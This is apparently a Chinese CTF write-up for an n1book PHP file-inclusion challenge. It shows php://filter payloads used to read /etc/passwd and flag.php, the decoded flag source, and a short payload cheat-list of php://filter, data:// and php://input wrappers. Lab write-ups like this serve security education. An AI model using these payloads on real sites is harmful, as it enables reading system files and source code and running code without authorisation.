

## flag
`n1book{afr_1_solved}`

## 思路
1. 访问环境时注意参数`?p=hello`，可以遍历一下命令`cmd、ls、whoami、flag`等，当输入**flag**时，提示nonono，开始尝试php伪协议。  
**此处p=hello表示的应该是指向hello.php文件**

2. 这里我首先通过伪协议判断能不能读取/etc/passwd，没有反馈，在这里卡了很久  
`php://filter/read=convert.base64-encode/resource=/etc/passwd`
3. 后来修改/etc/passwd为flag，获得base64码  
`PD9waHAKZGllKCdubyBubyBubycpOwovL24xYm9va3thZnJfMV9zb2x2ZWR9`
4. 解码得到`flag.php`
```php
<?php
die('no no no');
//n1book{afr_1_solved}
```
5. 同理`hello.php`，与之前猜测一致
```php
<?php

echo "hello world!";
```

## 总结
这种题目一定要抓住关键词，本题给了**hello关键字**，应该立马联想到伪协议读取hello，然后再读取passwd等文件  
[php伪协议漏洞](https://www.smi1e.top/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E4%B8%8Ephp%E4%BC%AA%E5%8D%8F%E8%AE%AE/)  
**data伪协议写入文件，php://filter用于读取源码，php://input用于执行php代码**
- file=php://filter/read=convert.base64-encode/resource=useless.php
- text=data://text/plain,welcome to the zjctf
- text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=